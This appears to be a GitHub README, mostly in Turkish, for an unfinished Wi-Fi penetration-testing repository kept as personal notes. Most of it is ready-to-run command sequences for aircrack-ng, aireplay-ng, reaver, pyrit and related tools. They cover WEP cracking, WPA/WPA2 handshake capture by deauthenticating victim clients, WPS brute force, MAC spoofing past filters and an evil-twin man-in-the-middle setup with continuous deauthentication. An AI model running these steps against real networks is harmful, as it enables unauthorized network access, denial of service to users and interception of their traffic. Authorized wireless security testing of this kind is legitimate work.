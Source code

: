 Bu Reponun amacı Wi-Fi Pentestlerini otomotize bir hale getirmek için oluşturulmuş bir Repo'dur. Amaç; hem bir not defteri olarak kullanmak hem de eksik görülen yerleri eklemektir. Proje hala daha "geliştirilme aşamasında" olup henüz tam olarak çalışmamaktadır. Olması hedeflenen saldırı türleri;

- Coffe - Latte Attack
- Deauthentication Attack (Stress Testing)
- PMKID Attack
- SSL MITM Attack
- Korek's Chop Chop Attack
- Fragmantation And Hitre Attack
- Hotsopt Attack
- Detecting AP Spoffing
- Detecting AP MAC Spoffing
- WPA/WPA2/WEB Capture Handshake
- Control Wi-Fi Card


Monitoring

root@mert:~airmon-ng check kill

monitor mod on

root@mert:~ifconfig wlan0 down
root@mert:~airmon-ng start wlan0
//hata verirse bekle tekrar dene
//iwconfig wlan0 mode monitor
//use wlan0 instead of wlan0mon

root@mert: ifconfig wlan0 up

Increase Wi-Fi TX Power

root@mert:~iw reg set B0
root@mert:~iwconfig wlan0 txpower <NmW|NdBm|off|auto>
txpower is 30 (generally)
txpower is depends your country, please googling
root@mert:~iwconfig


Change WiFi Channel wifi çanıl seç
root@mert:~iwconfig wlan0 channel <SetChannel(1-14)>



WEP CRACKING
 Method 1 : Fake Authentication Attack #sahte atak
root@mert:~ airmon-ng start wlan0
root@mert:~ airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC adresim ne?
root@mert:~ macchanger --show wlan0mon

root@mert:~ aireplay-ng -1 0 -a <BSSID> -h <OurMac> -e <ESSID> wlan0mon
root@mert:~ aireplay-ng -2 –p 0841 –c FF:FF:FF:FF:FF:FF –b <BSSID> -h <OurMac> wlan0mon
root@mert:~ aircrack-ng –b <BSSID> <PCAP_of_FileName>



Method 2 : ARP Replay Attack #arp atak

root@mert:~ airmon-ng start wlan0
root@mert:~ airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
//MAC Adresim ne hacı?
root@mert:~ macchanger --show wlan0mon
root@mert:~# aireplay-ng -3 –x 1000 –n 1000 –b <BSSID> -h <OurMac> wlan0mon
root@mert:~# aircrack-ng –b <BSSID> <PCAP_of_FileName>



Method 3 : Chop Chop Attack  #!!!!!!mantığını araştır ve anla bunu!!!!!!

root@mert:~ airmon-ng start wlan0
root@mert:~ airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC Adresim ne hacı?
root@mert:~ macchanger --show wlan0mon
root@mert:~ aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
root@mert:~ aireplay-ng -4 –b <BSSID> -h <OurMac> wlan0mon
root@mert:~ packetforge-ng -0 –a <BSSID> -h <OurMac> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
root@mert:~ aireplay-ng -2 –r <FileName2> wlan0mon
root@mert:~ aircrack-ng <PCAP_of_FileName>




Method 4 : Fragmentation Attack

root@mert:~ airmon-ng start wlan0
root@mert:~ airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#MAC Adresim ne hacı?
root@mert:~ macchanger --show wlan0mon
root@mert:~ aireplay-ng -1 0 –e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
root@mert:~ aireplay-ng -5 –b<BSSID> -h < OurMac > wlan0mon
//Press ‘y'
root@mert:~ packetforge-ng -0 –a <BSSID> -h < OurMac > -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
root@mert:~ aireplay-ng -2 –r <FileName2> wlan0mon
root@mert:~ aircrack-ng <PCAP_of_FileName>



Method 5 : SKA (Shared Key Authentication) Type Cracking


root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 10 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~ifconfig wlan0mon down
root@mert:~macchanger –-mac <VictimMac> wlan0mon
root@mert:~ifconfig wlan0mon up
root@mert:~aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon
root@mert:~aireplay-ng –-deauth 1 –a <BSSID> -h <FakedMac> wlan0mon
root@mert:~aircrack-ng <PCAP_of_FileName>



WPA / WPA2 CRACKING
Method 1 : WPS Attack

root@mert:~airmon-ng start wlan0
root@mert:~apt-get install reaver
root@mert:~wash –i wlan0mon 
root@mert:~reaver –i wlan0mon –b <BSSID> -vv –S
//or, Specific attack
root@mert:~reaver –i wlan0mon –c <Channel> -b <BSSID> -p <PinCode> -vv –S



Method 2 : Dictionary Attack #mantığını kavra!!!!

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~aircrack-ng –w <WordlistFile> -b <BSSID> <Handshaked_PCAP>




Method 3 : Crack with John The Ripper #en son işlem. Gerekliliğini araştır****

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~cd /pentest/passwords/john
root@mert:~./john –wordlist=<Wordlist> --rules –stdout|aircrack-ng -0 –e <ESSID> -w - <PCAP_of_FileName>
#or
root@mert:~aircrack-ng <FileName>.cap -J <outFile>
root@mert:~hccap2john <outFile>.hccap > <JohnOutFile>
root@mert:~john <JohnOutFile>



Method 4 : Crack with coWPAtty #bunu hiç bilmiyon. Kesinlikle bak.....!!!

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~cowpatty –r <FileName> -f <Wordlist> -2 –s <SSID>
root@mert:~genpmk –s <SSID> –f <Wordlist> -d <HashesFileName>
root@mert:~cowpatty –r <PCAP_of_FileName> -d <HashesFileName> -2 –s <SSID>




Method 5 : Crack with Pyrit

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~pyrit –r<PCAP_of_FileName> -b <BSSID> -i <Wordlist> attack_passthrough
root@mert:~pyrit –i <Wordlist> import_passwords
root@mert:~pyrit –e <ESSID> create_essid
root@mert:~pyrit batch
root@mert:~pyrit –r <PCAP_of_FileName> attack_db




Method 6 : Precomputed WPA Keys Database Attack

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 1 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~kwrite ESSID.txt
root@mert:~airolib-ng NEW_DB --import essid ESSID.txt
root@mert:~airolib-ng NEW_DB --import passwd <DictionaryFile>
root@mert: airolib-ng NEW_DB --clean all
root@mert:~airolib-ng NEW_DB --stats
root@mert:~airolib-ng NEW_DB --batch
root@mert:~airolib-ng NEW_DB --verify all
root@mert:~aircrack-ng –r NEW_DB <Handshaked_PCAP>

-----------------------------------------------------------------------------------
FIND HIDDEN SSID

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <Channel> --bssid <BSSID> wlan0mon
root@mert:~aireplay-ng -0 20 –a <BSSID> -c <VictimMac> wlan0mon


-------------------------------------------------------------------------------------
BYPASS MAC FILTERING
#klasik işlemler. Unutmamak için koydum. Ama yine de bak!!

root@mert:~airmon-ng start wlan0
root@mert:~airodump-ng –c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
root@mert:~aireplay-ng -0 10 –a <BSSID> -c <VictimMac> wlan0mon
root@mert:~ifconfig wlan0mon down
root@mert:~macchanger –-mac <VictimMac> wlan0mon
root@mert:~ifconfig wlan0mon up
root@mert:~aireplay-ng -3 –b <BSSID> -h <FakedMac> wlan0mon

--------------------------------------------------------------------------------------------------

MAN IN THE MIDDLE ATTACK

root@mert:~airmon-ng start wlan0
root@mert:~airbase-ng –e “<FakeBSSID>” wlan0mon
#apt-get install bridge-utils #bunu netten buldum. Gerekliliğini araştır. Ama sorun çözüyor...
root@mert:~brctl addbr <VariableName>
root@mert:~brctl addif <VariableName> wlan0mon
root@mert:~brctl addif <VariableName> at0
root@mert:~ifconfig eth0 0.0.0.0 up
root@mert:~ifconfig at0 0.0.0.0 up
root@mert:~ifconfig <VariableName> up
root@mert:~aireplay-ng –deauth 0 –a <victimBSSID> wlan0mon
root@mert:~dhclient3 <VariableName> &
root@mert:~wireshark &
;select <VariableName> interface
